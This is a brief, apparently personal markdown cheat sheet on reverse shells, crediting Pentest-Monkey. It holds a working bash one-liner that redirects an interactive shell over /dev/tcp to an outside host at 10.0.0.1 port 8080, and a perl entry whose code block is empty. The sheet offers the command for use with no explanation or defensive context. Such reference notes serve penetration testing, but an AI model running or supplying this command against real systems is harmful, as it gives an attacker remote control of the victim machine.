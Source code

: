 # Notes Cheat sheet

## Reverse Shells

---
* bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

* perl

```perl

```
---
**Pentest-Monkey**

